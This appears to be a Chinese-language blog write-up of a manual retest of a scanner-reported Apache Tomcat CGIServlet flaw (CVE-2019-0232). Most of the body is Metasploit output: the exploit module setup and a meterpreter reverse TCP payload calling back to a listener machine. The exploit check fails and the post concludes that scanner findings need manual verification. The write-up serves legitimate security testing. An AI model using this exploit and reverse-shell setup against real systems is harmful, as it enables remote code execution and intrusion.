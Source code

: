 ```yaml
---
title: Sample Page
published: true
---
```


## Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability

针对极光扫描器探测出的tomcat漏洞进行一次 `手工复测` .


### 所用到的工具
| 序号       | 工具名称          | 测试方式 |
|:-------------|:------------------|:------|
| 1         | MSF | 手动  |

#### 目标网站分析
目标所使用的中间件采用 `Apache Tomcat/7.0.82`

![](/_posts/目标网站的中间件信息.png)

#### 准备

* 工具库查看

> msf5 > search Rank:excellent name:tomcat
> 3  exploit/windows/http/tomcat_cgi_cmdlineargs  2019-04-10       excellent  Yes    Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability

#### 载荷info
```ruby
msf5 exploit(windows/http/tomcat_cgi_cmdlineargs) > info

       Name: Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability
     Module: exploit/windows/http/tomcat_cgi_cmdlineargs
   Platform: Windows
       Arch: x86, x64
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2019-04-10

Provided by:
  Yakov Shafranovich
  sinn3r <sinn3r@metasploit.com>

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
  Id  Name
  --  ----
  0   Apache Tomcat 9.0 or prior for Windows

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT      8080             yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /                yes       The URI path to CGI script
  VHOST                       no        HTTP server virtual host

Payload information:

Description:
  This module exploits a vulnerability in Apache Tomcat's CGIServlet
  component. When the enableCmdLineArguments setting is set to true, a
  remote user can abuse this to execute system commands, and gain
  remote code execution.

References:
  https://cvedetails.com/cve/CVE-2019-0232/
  https://wwws.nightwatchcybersecurity.com/2019/04/30/remote-code-execution-rce-in-cgi-servlet-apache-tomcat-on-windows-cve-2019-0232/
  https://blog.trendmicro.com/trendlabs-security-intelligence/uncovering-cve-2019-0232-a-remote-code-execution-vulnerability-in-apache-tomcat/

```
#### 分析和利用
> Platform: Windows
> Arch: x86, x64 //符合64位处理器要求
- 填充目标地址 `RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'`  
- 填充目标端口 `RPORT      8080             yes       The target port (TCP)`,这里的端口改用实际的项目端口8181.

---  
设定目标参数和HK机参数,然后开始:

***目标机配置如下:***
```ruby
   Module options (exploit/windows/http/tomcat_cgi_cmdlineargs):
   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.71.18.235     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8181             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The URI path to CGI script
   VHOST                       no        HTTP server virtual host
```

***HK机配置如下:***
```ruby
   Payload options (windows/meterpreter/reverse_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.71.70.102    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

---  

#### 验证结果
```ruby
msf5 exploit(windows/http/tomcat_cgi_cmdlineargs) > run
[*] Started reverse TCP handler on 10.71.70.102:4444
[*] Checking if 10.71.18.235 is vulnerable
[-] Exploit aborted due to failure: not-vulnerable: Target is not vulnerable. Set ForceExploit to override.
[*] Exploit completed, but no session was created.
```
exp验证不通过.*说明目标不存在该漏洞*




#### 目标状态
![](/_posts/ndcims验证后网站状态.png)


### 总结

针对漏洞扫描器给出的漏洞分析结果,对于精确度还是存疑的,这时候需要手工进行一次  `POC` 或者 `EXP`验证.如果验证的结果没能获取起初希望看到的效果,说明当下目标漏洞不可利用.
